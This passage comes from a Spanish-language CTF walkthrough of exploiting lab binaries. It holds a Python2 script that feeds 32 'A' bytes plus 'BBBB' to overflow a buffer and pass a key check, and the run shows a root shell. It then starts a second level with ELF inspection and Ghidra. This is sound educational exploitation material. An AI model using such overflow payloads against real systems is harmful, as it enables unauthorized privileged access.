 Mas rapido y facil en python3 

```python
❯ python3
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print(bytes.fromhex('42').decode())
B
>>> chr(int("0x42", base=16))
'B'
```

Bueno ahora que sabemos a que equivale `0x42` sabemos que el condicional esta haciendo un `key == BBBB` 4 B por que son 4 `0x42424242` para que nos de la bash tenemos que pasarle 32 bytes y darle las 4 B para que la condicion se pueda cumplir y nos de una bash

Entonces tenemos que crear un script para pasarselo como argumento

```python
#!/usr/bin/python2

first = b"A" * 32 # le pasamos 32 veces A para el buffer

key = b"B" * 4 # le pasamos las 4 B 

print(first + key)
```

Al cumplirse todo nos deberia de dar una bash como el usuario que esta corriendo el binario en esta caso yo no estoy en la maquina victima ya que esto lo estoy haciendo desde mi maquina de atacante y descarge los binarios es por eso que tambien no puedo mostrar el `level1.txt` pero si ustedes lo hacen en la maquina victima si lo podran ver

```
❯ ./levelOne $(python2 pwned1.py)
Buf is: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Key is: 0x42424242
# whoami
root
```

## Level 2

```shell
❯ file levelTwo
levelTwo: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5b4ae31c0fd4332db20b40cb343f690ea5052aa9, not stripped
```

Para este nivel tendremos que ver mas a fondo el codigo entonces usaremos ghidra

```shell
❯ sudo ghidra > /dev/null 2>&1 & disown
[1] 68693
```
